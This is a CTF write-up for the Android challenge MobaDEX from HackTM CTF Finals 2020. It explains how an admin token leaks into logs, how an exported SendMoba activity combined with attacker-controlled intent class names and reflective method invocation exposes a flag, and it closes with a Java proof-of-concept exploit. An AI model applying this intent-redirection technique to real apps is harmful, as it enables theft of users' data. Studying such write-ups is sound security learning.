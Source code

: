 # MobaDEX

- CTF: **HackTM CTF Finals 2020**
- Difficulty: **Medium**
- Challenge Files: [MobaDEX.apk](https://github.com/Fineas/Me-CTF/blob/master/android_challenges/challenges/MobaDEX/MobaDEX.apk)
- Challenge Page: 

# Writeup

- Description: **It's december, HackTM CTF is rolling, what a time to make new friends. Hop on and join the latest and hottest Android Messaging Service: MobaDEX. MobaDEX allows you to make friends with other CTF players exchange Mobs in a very well-secured environment. It is prohibited to exchange flags.**

- Introduction: By simply running the application on a mobile device, we can get a very good overview of the application. It is an Android Messaging Application, based on a concept similar to Snapchat. The application allows the user to `Register an Account`, `Autenthicate`, `Add Friends`, `Write Moba` and `Read Moba` (the term `Moba` is being used to name the message that is being transferd from one account to another).

- Analysis: 
  * Now that we know what the application is about, let's take a look at how the application works. Looking at the `AndroidManifest.xml` file, we can see that there are multiple Activities declared: `.ProcessMoba`, `.SendMoba`, `.ui.main.ShowMoba`, `.LoginActivity`, `.RegisterActivity`, `.MainActivity`. Somthing that is particularly interesting is that only `RegisterActivity`, `LoginActivity`, and `SendMoba` activities are being exported. We will keep that in mind.
  * Looking at the `RegisterActivity`, we can see that it takes the input from the input fields (name / email / password) and passes it via a `POST` request to: `http://35.246.216.38:8686/api.php`. So the application is using an `API` server to handle the accounts and messages.
  * Now let's take a look at the `SendMoba` Acitvity, after all, the exported activities are some of the easiest entrypoint in the application. We can see that the application gets an `intent` and is expecting to contain `moba_user_token`, `moba_friend_token` and `moba_data` extras. The data is being send to `do_send_moba` which uses a custom serialization method to encode the `moba_data` intent and then alongside user's token and friend's token sends the data to the server. But what is a token? We can see that there is a class called `Session` which has the following structure:
  ```java
  public class Session {

      private String Flag = "HackTM{local_flag}";
      private String token;
      private static Session instance = null;

      protected Session() {
          this.token = "";
      }
      public String getToken(){
          return this.token;
      }
      public String getFlag(){ return this.Flag; }
      public void setToken(String token){
          this.token = token;
      }

      public static Session getInstance() {
          if(instance == null) {
              instance = new Session();
          }
          return instance;
      }
  }
  ```
  So the application holds user's token inside a singleton class called `Session`.
  * Let'stake a look at the `Add Friend` Activity. It looks pretty standard, takes an username and send it to the API server alongside user's token. However, something that later comes into our eyes is an if statement:
  ```java
  if(friend_username.equals("Admin_FeDEX")){
    updateTextView("Cannot add Admin!");
    Log.d("[MobaDEX]", myResponse);
  }
  ```
  So we can see that we are not allowed to add the user `Admin_FeDEX` as a friend. However, trying to add `Admin_FeDEX` as a friend and printing out the logs will display something interesting: 
  ```log
  2020-12-15 21:05:06.904 3012-3012/com.example.mobadex D/[MobaDEX]: 682314393318725
  ```
  This is the admin's token. So although we cannot the admin to our friends list, we are still able to send him a `Moba` by invoking the `SendMoba` activity and put the admin's token inside `moba_friend_token`.
  * We will keep that in mind, and analyze the last main component: `ReadMobaFragment`. It makes a call to the API and loads all the `Mobs` of the user with the token specified in the parameter. Then it sets an `onClick`listener where the `data` and the `id` of the `Moba` is being sent over to the `ProcessMoba` class. Inside the `ProcessMoba` we can see that data is being deserialized and the `moba_display_class` and `moba_display_package` and `moba_display_content` extras are being extracted. Then the information is being stored inside an intent as follows:
  ```java
  Intent intent = new Intent();
  intent.setClassName(moba_package, moba_class);
  intent.putExtra("display_content",moba_content);
  intent.putExtra("display_id",moba_id);
  ```
  This piece of code is very interesting because it sets the `ClassName` to a value that we can control by sending a custom `Moba`. We will keep that as well in mind. After that, there are some extra checks to see if some other extras are present inside the bundle. One thing that stands out is:
  ```java
  if(data.getString("moba_data") != null){
    String get_session_method = data.getString("moba_data");
    String extra_data = "";
    try {
        Method method = sess.getClass().getMethod(get_session_method);
        extra_data = (String)method.invoke(sess);
    } catch (SecurityException e) {
        Log.d("[MobaDEX]","Error:" + e);
        finish();
    }
  ...
  ```
  This piece of code allows us to get our own token if we supply the string `getToken` inside `moba_data`. But at the same time, if we put `getFlag` we are able to read `session.Flag`.
  
- Exploitation
  * With the final discovery, everything is clear. We need to start the `SendMoba` activity and make sure that the `Moba` is being sent to the Admin. Then, we would like instead of `ShowMoba` (which is the default class used when reading a Moba) to use `SendMoba` in order to be able to send the flag back to us. Then we will put the value "getFlag" inside `moba_data` and we're done.
  * Code
  ```java
  @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // EXPLOIT POC
        Intent i = new Intent();

        i.setComponent(new ComponentName("com.example.mobadex","com.example.mobadex.SendMoba"));

        Intent intent_data = new Intent();
        intent_data.putExtra("moba_display_content","PWNED by FeDEX"); // data that will be printed
        intent_data.putExtra("moba_display_package", "com.example.mobadex"); // PACKAGE
        //  intent_data.putExtra("moba_display_class","com.example.mobadex.ui.main.ShowMoba"); // CLASS
        intent_data.putExtra("moba_display_class","com.example.mobadex.SendMoba"); // CLASS
        intent_data.putExtra("moba_user_token","682314393318725"); // VICTIM (send back from admin to me)
        intent_data.putExtra("moba_friend_token","538622981120038"); // ATTACKER
        intent_data.putExtra("moba_data","getFlag"); // function to trigger

        i.putExtra("moba_user_token","538622981120038"); // ATTACKER (send malicious payload from me to admin)
        i.putExtra("moba_friend_token","682314393318725"); // VICTIM
        i.putExtra("moba_data",intent_data);

        startActivity(i);
    }
  ```

